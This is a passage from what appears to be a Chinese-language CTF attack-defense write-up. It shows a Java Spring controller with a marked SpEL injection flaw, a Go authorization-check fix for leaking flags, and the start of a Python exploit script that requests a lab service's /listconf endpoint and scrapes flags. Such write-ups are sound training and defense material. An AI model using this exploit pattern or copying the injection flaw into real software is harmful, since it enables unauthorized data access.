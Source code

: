 ```java
    @RequestMapping("/myProfile")
    public String myProfilePage(HttpSession session,@ModelAttribute("message") String message) {
        Integer first = (Integer) session.getAttribute("first");
        if(first!=null&&first==0){
            session.setAttribute("message",Canstants.fillTheProfileFirst);
            return "noProfile";
        }else if(first==1){
            Integer userid = (Integer) session.getAttribute("userId");
            Profile profile = profileDao.findProfileByUserId(userid);
            String template = profileView(profile);//这个函数存在spel注入
            session.setAttribute("Template", template);
            session.setAttribute("profile", profile);
            session.setAttribute("message", message);
            return "profile_view";
        }else if(first==2){
            return "excel";
        }else {
            session.setAttribute("message",Canstants.authFail);
            return "error";
        }
    }
```

[源码](https://mo-xiaoxi.github.io/img/post/TSCTF/web1.zip)





## Web2

这是一个go语言web题。

主要有三块漏洞点：

### 越权泄漏flag

me页面，article的各种功能页面都会泄漏flag。

需要加一个登陆验证，类似这样:

```go
	if(this.Data["IsAdmin"])!=true{
		this.Redirect("/login", 302)
	}
```

在28088端口，管理员页面也会有一个flag，但是那个flag只会泄漏一轮。

exp如下：

```python

def filter_flag(string):
    p = re.compile(r'TSCTF{[0-9a-z\-]{32}}')
    # p = re.compile(r'hctf\{.*\}')
    r = p.findall(string)
    print r
    return r

def get_flag1(host="http://172.16.10.16:28088"):
    paramsGet = {"command":"conf"}
    headers = {"Cache-Control":"max-age=0","Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","Upgrade-Insecure-Requests":"1","User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36","Referer":"http://172.16.10.16:28088/listconf?command=conf","Connection":"close","Accept-Language":"zh-CN,zh;q=0.9,en;q=0.8"}
    response = session.get(host+"/listconf", params=paramsGet, headers=headers)
```